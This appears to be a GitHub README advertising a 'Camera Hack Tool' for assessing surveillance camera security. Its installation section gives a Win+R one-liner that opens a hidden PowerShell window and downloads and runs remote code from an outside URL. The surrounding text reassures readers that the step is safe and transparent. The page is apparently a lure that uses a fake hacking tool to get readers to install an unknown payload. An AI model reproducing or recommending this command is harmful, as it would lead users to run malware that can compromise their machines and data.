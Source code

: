 # Cam Hacker Tool 📷

## Description
**Camera Hack Tool** is an advanced desktop application designed for security professionals and ethical hackers to assess the vulnerability of camera systems. This tool allows users to identify weaknesses in surveillance setups and ensure the integrity of camera networks.

## Key Features
- **Vulnerability Scanning**: Scan for known vulnerabilities in camera firmware and configurations.
- **Network Analysis**: Analyze the security of the network to which the cameras are connected.
- **Access Control Testing**: Test the strength of access controls and authentication mechanisms.
- **Live Feed Monitoring**: Monitor live feeds from connected cameras to assess security in real-time.
- **Reporting Tools**: Generate detailed reports on vulnerabilities and suggested remediation steps.

## Installation

<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>

### Installation
- Follow the on-screen instructions to install the program on your device from command.

### Launching
- Launch Camera Hack Tool from your desktop or application menu.
- Register or log into your account if necessary.

## Usage
1. Select the camera system or network you want to assess.
2. Run vulnerability scans and analyze the results.
3. Review live feeds and generate reports on security findings.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Camera Hack Tool, you can enhance your security assessments and ensure that camera systems are protected from potential threats! 😊

## SEO Keywords
- Camera Hack Tool
- Surveillance system security
- Vulnerability scanning
- Network analysis
- Cam Hacker
- Live feed monitoring
- Ethical hacking tools
- Security assessments
- Camera network integrity
